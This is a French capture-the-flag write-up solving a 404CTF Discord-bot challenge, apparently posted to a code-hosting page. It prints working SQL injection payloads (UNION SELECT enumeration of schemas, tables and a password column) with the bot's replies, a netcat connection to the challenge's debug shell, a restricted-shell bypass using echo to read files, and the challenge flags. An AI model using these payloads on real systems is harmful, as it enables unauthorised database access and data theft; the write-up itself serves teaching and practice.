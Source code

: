 On doit tirer le flag du nez d'un bot discord.

Bot discord avec trois commandes :
```
Je ne suis pas un automate, juste un humain qui veut aider :-)
Commandes disponibles :
!chercher argument -> rechercher argument dans la base de données
!authentification motdepasse -> authentifiez vous pour accéder au mode privilégié
!drapeau -> obtenez un mystérieux drapeau
```

!chercher : permet de chercher du texte dans une liste.

On remarque que la commande est sensible aux injections SQL.

La table n'a qu'une seule colonne :
```
!chercher a" GROUP BY 1 -- - : OK
!chercher a" GROUP BY 2 -- - : KO
```
Le mot de passe est probablement dans une autre table.

Vulnérable aux unions :
```
!chercher a" UNION SELECT null -- - : OK
```
On récupère les db :
```
!chercher a" UNION SELECT schema_name FROM information_schema.schemata -- -
Je suis un gentil humain
BOT
 — Aujourd’hui à 00:11
Results:
Result #1:
>bcra
Result #2:
>information_schema
Result #3:
>test
Result #4:
>data
```
On récupère les tables :
```
!chercher a" UNION SELECT table_name FROM information_schema.tables WHERE table_schema='data' -- -
Je suis un gentil humain
BOT
 — Aujourd’hui à 00:15
Results:
Result #1:
>bcra
Result #2:
>Privileged_users
Result #3:
>data
Result #4:
>password
```

Et les colomnes :
```
!chercher a" UNION SELECT column_name FROM information_schema.columns WHERE table_name='password' -- -
Je suis un gentil humain
BOT
 — Aujourd’hui à 00:17
Results:
Result #1:
>bcra
Result #2:
>password
```

Injection finale :
```
!chercher a" UNION SELECT password FROM password -- -
Je suis un gentil humain
BOT
 — Aujourd’hui à 00:18
Results:
Result #1:
>bcra
Result #2:
>404CTF{D1sc0rd_&_injection_SQL}
```

Flag 1 : 404CTF{D1sc0rd_&_injection_SQL}

============================================

On s'authentifie et on a une nouvelle commande :

```
!aide
Je suis un gentil humain
BOT
 — Aujourd’hui à 20:57
Je ne suis pas un automate, juste un humain qui veut aider :-)
Commandes disponibles :
!chercher argument -> rechercher argument dans la base de données
!authentification motdepasse -> authentifiez vous pour accéder au mode privilégié
!drapeau -> obtenez un mystérieux drapeau
!debug -> debug command
```

```
!debug
Je suis un gentil humain
BOT
 — Aujourd’hui à 21:07
Debug déployé sur le port 31337 ! Mot de passe : p45_uN_4uT0m4t3
```

On cherche l'ip :
```
host ctf.404ctf.fr     
ctf.404ctf.fr has address 141.94.211.171
ctf.404ctf.fr has address 141.94.211.60
ctf.404ctf.fr has address 141.94.215.133
ctf.404ctf.fr has address 141.94.211.6
ctf.404ctf.fr has address 141.94.209.151
```
```
nc 141.94.209.151 31337 
Veuillez entrer le mot de passe :
p45_uN_4uT0m4t3
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ 
```

On est dans une jail assez basique bash.

Les commandes ls et cat ne fonctionnent pas, mais echo si !\
On fait `echo *` pour lister les fichiers et `echo $(<file)` pour le cat.
```
bash-4.4$ echo *
echo *
auth_wall.sh flag.txt

bash-4.4$ echo "$(<flag.txt)"
echo "$(<flag.txt)"
404CTF{17_s_4g155417_3n_f4iT_d_1_b0t}
```

